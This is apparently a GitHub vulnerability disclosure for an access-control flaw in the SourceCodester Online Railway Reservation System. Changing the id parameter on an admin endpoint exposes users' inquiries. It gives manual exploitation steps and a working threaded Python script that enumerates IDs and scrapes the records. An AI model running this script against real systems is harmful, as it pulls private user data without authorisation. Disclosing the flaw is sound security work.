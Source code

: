 # Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System 
---
## CVE-2024-93XX

Vulnerability Analysis:
---

Affected product: [Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)

Affected Endpoint: `orrs/admin/inquiries/view_details.php?id=*`

Vulnerability Analysis:
---

A Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System  where a unauthorized user and directly access inquiries submitted by users to Administrator This can be Demonstrated with this steps:

Affected Product: [Online Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)
 

Exploitation:

[
![image](https://github.com/gurudattch/CVEs/blob/main/assets/34.png)
---

1. Directly Pointing to the http://your_host/orrs/admin/inquiries/view_details.php?id=*  
2. By Changing the Id  parameter value a Unauthorized User can directly Access The Inquiry


OR USE this Python Script:

Python

```
import requests
import threading
from bs4 import BeautifulSoup

def send_request_and_extract_data(id):
    url = f"http://localhost/orrs/admin/inquiries/view_details.php?id={id}"
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')

    data = []
    for dl in soup.find_all('dl'):
        for dt, dd in zip(dl.find_all('dt', class_='text-primary'), dl.find_all('dd', class_='pl-4')):
            data.append((dt.text, dd.text))

    print(f"ID: {id}")
    for item in data:
        print(f"{item[0]}: {item[1]}")
    print()

def main():
    from_id = int(input("Enter the starting ID: "))
    to_id = int(input("Enter the ending ID: "))

    threads = []
    for id in range(from_id, to_id + 1):
        t = threading.Thread(target=send_request_and_extract_data, args=(id,))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

if __name__ == "__main__":
    main()


```
Usage

```
python3 exp.py

```
